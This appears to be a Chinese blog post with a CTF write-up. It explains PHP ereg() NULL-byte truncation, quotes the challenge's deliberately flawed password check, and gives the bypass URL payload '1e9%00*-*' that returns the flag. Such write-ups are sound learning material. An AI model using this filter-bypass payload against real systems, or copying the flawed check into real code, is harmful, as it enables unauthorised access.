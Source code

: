 <!--yml
category: 未分类
date: 2022-04-26 14:53:26
-->

# 四叶草云演-CTF03# ereg_weixin_43973521的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_43973521/article/details/113921764](https://blog.csdn.net/weixin_43973521/article/details/113921764)

> *   ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。
>     
>     
> *   ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配

## ![](img/8d3976e4e3f152f0ffcbf52054ec1025.png)

## 题解：

首先，启动环境，发现无任何内容，查看源码无发现，打开robots.txt，审计php代码

```
if (isset ($_GET['password'])) {
// get请求参数名为password，非空

	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
    // 判断password参数值是否为一个或者多个大小写字母和数字构成
	{
		echo '<p>You password must be alphanumeric</p>';

    }
	  else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
      // 判断password参数值长度是否小于8，参数值是否大于9999999
	{    

		if (strpos ($_GET['password'], '*-*') !== FALSE)
        // 判断password参数值是否出现*-*
		{
			die('Flag: ' . $flag);
		}
		else
		{
			echo('<p>*-* have not been found</p>');
		}
	}
	else
	{
		echo '<p>Invalid password</p>';
	}
```

构造url：[http://dcbdf3d5.yunyansec.com/?password=1e9%00*-*](http://dcbdf3d5.yunyansec.com/?password=1e9%00*-*)

**得到**Flag: flag{this_is_flag}